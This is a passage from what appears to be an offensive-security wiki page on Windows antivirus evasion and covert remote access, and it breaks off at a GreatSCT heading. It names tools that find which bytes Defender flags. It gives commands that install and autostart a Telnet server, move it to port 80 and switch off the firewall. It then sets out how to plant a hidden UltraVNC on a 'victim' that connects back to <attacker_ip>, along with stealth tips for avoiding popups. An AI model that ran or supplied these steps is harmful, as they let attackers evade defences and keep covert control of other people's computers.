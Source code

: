 You can use [**ThreatCheck**](https://github.com/rasta-mouse/ThreatCheck) which will **remove parts of the binary** until it **finds out which part Defender** is finding as malicious and split it to you.\
Another tool doing the **same thing is** [**avred**](https://github.com/dobin/avred) with an open web offering the service in [**https://avred.r00ted.ch/**](https://avred.r00ted.ch/)

### **Telnet Server**

Until Windows10, all Windows came with a **Telnet server** that you could install (as administrator) doing:

```bash
pkgmgr /iu:"TelnetServer" /quiet
```

Make it **start** when the system is started and **run** it now:

```bash
sc config TlntSVR start= auto obj= localsystem
```

**Change telnet port** (stealth) and disable firewall:

```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```

### UltraVNC

Download it from: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (you want the bin downloads, not the setup)

**ON THE HOST**: Execute _**winvnc.exe**_ and configure the server:

- Enable the option _Disable TrayIcon_
- Set a password in _VNC Password_
- Set a password in _View-Only Password_

Then, move the binary _**winvnc.exe**_ and **newly** created file _**UltraVNC.ini**_ inside the **victim**

#### **Reverse connection**

The **attacker** should **execute inside** his **host** the binary `vncviewer.exe -listen 5900` so it will be **prepared** to catch a reverse **VNC connection**. Then, inside the **victim**: Start the winvnc daemon `winvnc.exe -run` and run `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900`

**WARNING:** To maintain stealth you must not do a few things

- Don't start `winvnc` if it's already running or you'll trigger a [popup](https://i.imgur.com/1SROTTl.png). check if it's running with `tasklist | findstr winvnc`
- Don't start `winvnc` without `UltraVNC.ini` in the same directory or it will cause [the config window](https://i.imgur.com/rfMQWcf.png) to open
- Don't run `winvnc -h` for help or you'll trigger a [popup](https://i.imgur.com/oc18wcu.png)

### GreatSCT
